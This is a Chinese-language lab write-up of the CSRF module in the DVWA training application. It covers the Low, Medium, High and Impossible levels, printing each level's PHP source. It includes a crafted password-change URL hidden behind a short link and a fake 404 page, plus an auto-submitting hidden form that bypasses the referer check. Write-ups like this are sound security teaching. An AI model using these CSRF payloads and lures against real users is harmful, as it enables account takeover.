

<!--
 * @Author: kok-s0s
 * @Date: 2021-06-13 11:41:07
 * @LastEditors: kok-s0s
 * @LastEditTime: 2021-06-13 12:47:17
 * @Description: dvwa-csrf
-->

## LowCSRF Source

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

阅读源码，发现其实现的功能仅仅是确认新密码两次输入是否都相等，没有任何防CSRF的措施。

自己输入123456测试，得到下面的url格式，可以清楚只要有人点击了下方的url，他的账户密码会被修改我设定的123456，不过这个太明示了，基本不会有用户直接被欺骗的。

 `http://localhost:8888/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#`



将这长链接（明示的）隐藏起来，弄成短链接。

 `http://mtw.so/5DzOjQ`

再弄个404报错的[html网页](./404.html)试图去欺骗用户。

```html

<h1>404<h1> |
```

这样用户点击到该网页，以为是其它问题访问网站失败时，此时他的密码已经被修改成 `123456` 了。

## Medium CSRF Source

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

相较于Low的代码，其加入一个referer判断：

```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) 
```

这条if语句要求接受的 `HTTP_REFERER` 和 `SERVER_NAME` 来自于同一个域下，否则无法进行修改密码的操作。

> referer这个http字段提供访问来源的信息。

攻击提示很明显，伪造个referee字段出来。

1. 过滤规则要求必须主机名是`localhost`，只需将我们的攻击页面设置成`localhost.html`即可。[file](./localhost.html)

2. 伪造一个表单，设置符合过滤规则的action，设置自动触发提交。

[file](./fake-referer.html)

```html
<form method="get" id="csrf" action="http://127.0.0.1:8888/vulnerabilities/csrf/">
    <input type="hidden" name="password_new" value="222">
    <input type="hidden" name="password_conf" value="222">
    <input type="hidden" name="Change" value="Change">
</form>
<script>
    document.forms["csrf"].submit();
</script>
```

用户一旦点击到该页面，他的密码就会被修改。

## High CSRF Source

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

加入了Anti-CSRF token机制

```php
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

这意味着我们需要一个token才能进行攻击。

嗯，没做出来，要跨域什么的，失败了。

## Impossible CSRF Source

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_curr = $_GET[ 'password_current' ];
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Sanitise current password input
    $pass_curr = stripslashes( $pass_curr );
    $pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $pass_curr = md5( $pass_curr );

    // Check that the current password is correct
    $data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
    $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
    $data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
    $data->execute();

    // Do both new passwords match and does the current password match the user?
    if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
        // It does!
        $pass_new = stripslashes( $pass_new );
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update database with new password
        $data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
        $data->bindParam( ':password', $pass_new, PDO::PARAM_STR );
        $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
        $data->execute();

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match or current password incorrect.</pre>";
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

在加入 `Anti-CSRF token机制` 的基础上，增加确认当前密码的功能，即我（攻击者需要知道原始密码），否则我怎么样都无法进行攻击。

```php
// Check that the current password is correct
$data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
$data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
$data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
$data->execute();
```
